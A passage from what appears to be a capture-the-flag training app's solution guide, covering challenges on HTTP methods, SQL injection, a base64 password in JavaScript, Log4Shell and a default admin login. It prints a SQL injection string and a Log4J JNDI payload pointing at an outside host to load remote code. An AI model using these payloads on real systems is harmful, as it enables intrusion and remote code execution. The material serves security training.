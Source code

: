 #### Challenge 11 - HTTP mistake
If you take a look on developer tools, you'll see that even with correct password the HTTP request end with `405` error.
The solution is in the error message: `Method not allowed`. Try some other methods (preferably those better suited for
_authentication_ call) and see what happens.

#### Challenge 12 - SQL Injection
Simulated backend of this application creates SQL query like this:

`txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;`.

So if you pass any id, but add `OR` clause with true value it may go through. Remember to surround SQL functions with 
quotes.
Example: `dasdasdasdasdasdasdasdas 'OR' 12 '==' 12`.

#### Challenge 13 - unprotected JS file
Password is hidden in java script file included to `index.html`. If you go there, you'll find an unused constant 
`passwd` which contains password encoded with base64.

#### Challenge 14 - Log4J vulnerability
This challenge simulates [CVE-2021-44228](https://owasp.org/blog/2021/12/13/Log4J-Alert). The correct answer would be
`${jndi:ldap://hackingsite.pl/myscript}`. This behavior is showed for example 
[in this youtube video](https://www.youtube.com/watch?v=0-abhd-CLwQ&ab_channel=MarcusHutchins).

#### Challenge 15 - URL Interpretation
There is indeed a admin panel. At the very same site, but with adding `/admin.html` to the URL. And the credentials 
are... `admin: admin` (who would have guessed??). After logging in you can see the user list, along with passwords.
I suppose it's easy from there.

